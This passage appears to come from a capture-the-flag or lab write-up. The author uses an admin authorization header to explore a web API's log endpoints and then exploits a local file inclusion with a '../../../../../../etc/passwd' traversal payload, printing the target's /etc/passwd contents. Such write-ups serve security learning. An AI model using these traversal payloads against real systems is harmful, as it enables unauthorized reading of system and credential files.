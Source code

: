 ```json
        "wallet_id":"f0eca6e5-783a-471d-9d8f-0162cbc900db"},
    "Status":200}
```

Nice we can send requests as admin using that authorization header, now let's examine the API endpoints, I see that `/api/v1/admin/read/log` & `/api/v1/admin/view/logs` are very interesting as they are made for admin as we see.

For `/api/v1/admin/read/log` we need to send the path of the log file as value of `log_file_name` query parameter.
For `/api/v1/admin/view/logs` will list the available logs.

Let's list the log first using `/api/v1/admin/view/logs` 
```json
{
    "Files":[
        "1.log"
        ],
        "Path":"/home/shirohige/logs/",
        "Status":201
}
```

We have many exposed info from this
- The path underwhich it gets the logs
- the user is `shirohige`

now we can use `/api/v1/admin/read/log` and send the request to this `/api/v1/admin/read/log?log_file_name=1.log` and we will get
```json
{
    "/home/shirohige/logs/1.log":[
        "This is a sample log testing\n"
    ],
    "Status":201
    }
```

Trying LFI by sending request to `/api/v1/admin/read/log?log_file_name=../../../../../../etc/passwd` and GG
```json
{"/home/shirohige/logs/../../../../../../etc/passwd":["root:x:0:0:root:/root:/bin/bash\n","daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\n","bin:x:2:2:bin:/bin:/usr/sbin/nologin\n","sys:x:3:3:sys:/dev:/usr/sbin/nologin\n","sync:x:4:65534:sync:/bin:/bin/sync\n","games:x:5:60:games:/usr/games:/usr/sbin/nologin\n","man:x:6:12:man:/var/cache/man:/usr/sbin/nologin\n","lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\n","mail:x:8:8:mail:/var/mail:/usr/sbin/nologin\n","news:x:9:9:news:/var/spool/news:/usr/sbin/nologin\n","uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\n","proxy:x:13:13:proxy:/bin:/usr/sbin/nologin\n","www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\n","backup:x:34:34:backup:/var/backups:/usr/sbin/nologin\n","list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\n","irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin\n","_apt:x:42:65534::/nonexistent:/usr/sbin/nologin\n","nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n","systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin\n","systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin\n","dhcpcd:x:100:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false\n","messagebus:x:101:102::/nonexistent:/usr/sbin/nologin\n","systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin\n","pollinate:x:102:1::/var/cache/pollinate:/bin/false\n","polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin\n","usbmux:x:103:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin\n","sshd:x:104:65534::/run/sshd:/usr/sbin/nologin\n","shirohige:x:1001:1002:White Beard:/home/shirohige:/bin/bash\n","_laurel:x:999:990::/var/log/laurel:/bin/false\n"],"Status":201}
```
